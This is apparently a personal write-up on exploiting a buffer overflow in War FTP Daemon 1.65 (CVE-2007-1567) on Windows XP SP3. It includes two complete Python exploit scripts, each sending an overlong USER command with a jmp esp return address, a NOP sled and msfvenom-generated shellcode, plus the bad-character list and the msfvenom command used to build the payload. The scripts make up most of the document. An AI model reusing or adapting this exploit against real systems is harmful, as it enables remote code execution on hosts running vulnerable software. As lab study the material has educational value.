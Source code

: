 # War FTP Daemon 1.65 _ Win XP SP3 - Buffer Overflow


-   cve details: [CVE-2007-1567](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-1567)
-   Target: War FTP Daemon 1.65 
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

For run server click this button:
![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2007-1567_BOF/images/3.JPG)

If you have this error:
![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2007-1567_BOF/images/2.JPG)

clean in war ftp folder this file: FtpDaemon.dat \
I send several "A" to program but it recive a msg for send USER. I send 1000 * "A" by perfix with "USER" and program crashed. I use MONA for detect exactly BOF location and I find it fr 485. I test it and evrything is OK. I add my shellcode and "jmp esp"'s address to my exploit :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

shellcode=("\xbf\x9f\x6d\xb4\x7d\xda\xcb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x31\x31\x7a\x13\x03\x7a\x13\x83\xea\x63\x8f\x41\x81\x73\xd2"
"\xaa\x7a\x83\xb3\x23\x9f\xb2\xf3\x50\xeb\xe4\xc3\x13\xb9\x08"
"\xaf\x76\x2a\x9b\xdd\x5e\x5d\x2c\x6b\xb9\x50\xad\xc0\xf9\xf3"
"\x2d\x1b\x2e\xd4\x0c\xd4\x23\x15\x49\x09\xc9\x47\x02\x45\x7c"
"\x78\x27\x13\xbd\xf3\x7b\xb5\xc5\xe0\xcb\xb4\xe4\xb6\x40\xef"
"\x26\x38\x85\x9b\x6e\x22\xca\xa6\x39\xd9\x38\x5c\xb8\x0b\x71"
"\x9d\x17\x72\xbe\x6c\x69\xb2\x78\x8f\x1c\xca\x7b\x32\x27\x09"
"\x06\xe8\xa2\x8a\xa0\x7b\x14\x77\x51\xaf\xc3\xfc\x5d\x04\x87"
"\x5b\x41\x9b\x44\xd0\x7d\x10\x6b\x37\xf4\x62\x48\x93\x5d\x30"
"\xf1\x82\x3b\x97\x0e\xd4\xe4\x48\xab\x9e\x08\x9c\xc6\xfc\x46"
"\x63\x54\x7b\x24\x63\x66\x84\x18\x0c\x57\x0f\xf7\x4b\x68\xda"
"\xbc\xa4\x22\x47\x94\x2c\xeb\x1d\xa5\x30\x0c\xc8\xe9\x4c\x8f"
"\xf9\x91\xaa\x8f\x8b\x94\xf7\x17\x67\xe4\x68\xf2\x87\x5b\x88"
"\xd7\xeb\x3a\x1a\xbb\xc5\xd9\x9a\x5e\x1a")


exploit="A"*485 + "\xd7\x30\x9d\x7c" + "\x90"*8 + shellcode

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()

```

But My shellcode not work and something is wrong. I think myshellcode have badcharacters and I use mona and manually to find it. after several try I find this 
badcharacters: "\x00\x0a\x0d\x40". and I use msfvenum to create shellcode witout this badcharacters.

```
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe  -f c -b '\x00\x0a\x0d\x40'
```

I add it to my exploit but it Not work. I analysis it and find problem. When I send exploit with "\x90"*8 ,in the buffer show 5's NOP in the buffer. I add 3 extra
to My exploit :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

shellcode=("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")


exploit="A"*485 + "\xd7\x30\x9d\x7c" + "\x90"*11 + shellcode

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2007-1567_BOF/images/1.JPG)
